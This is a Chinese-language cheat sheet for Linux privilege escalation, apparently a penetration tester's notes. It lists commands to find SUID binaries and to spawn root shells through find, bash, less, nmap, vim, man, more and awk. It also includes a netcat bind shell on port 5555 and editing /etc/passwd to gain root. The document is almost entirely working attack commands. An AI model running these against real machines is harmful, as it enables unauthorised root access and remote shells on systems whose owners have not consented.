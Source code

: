 # 提权查看
https://gtfobins.github.io/ 
# NFS提权
# suid提权
首先查看带有suid权限的文件

    find / -perm -u=s -type f>a.txt
    find / -perm -u=s -type f>a.txt
    find / -user root -perm -4000 -print 2>/dev/null
    find / -user root -perm -4000 -exec ls -ldb {} ;
查看有suid提权漏洞的文件，目前已知的可用来提权的linux可行性文件列表如下

    Nmap
    Vim
    find
    Bash
    More
    Less
    Nano
    cp

# 设置环境
    find / -name find | xargs ls -F
`查找后缀有*的可执行文件`

    chmod u+s /usr/bin/find
    ls -al /usr/bin/find
# find
    chmod +s /usr/bin/find
    find pentestlab -exec whoami \;
    find pentestlab -exec netcat -lvp 5555 -e /bin/sh \;
    find / -type f -name getflag -exec "whoami" \;
    find / -type f -name getflag -exec "/bin/sh" \;
    find . -exec '/bin/sh' \;
# bash
    chmod +s /bin/bash
    bash -p
# less
    chmod +s /bin/less
    less /etc/passwd
    !/bin/sh
# nmap
## 老版本
    chmod +s /usr/bin/nmap
    nmap --interactive
# vim
## 1

    chmod +s /usr/bin/vim.basic
    vim /etc/passwd(改成跟root一样)
## 2(ubuntu16未成功)

    vim.tiny
    :set shell=/bin/sh
    :shell

# man(ubuntu16未成功)

    man passwd
    !/bin/bash
# more(ubuntu16未成功)

    more /etc/passwd
    !/bin/bash

# awk(ubuntu16未成功)

    awk 'BEGIN {system("/bin/bash")}'
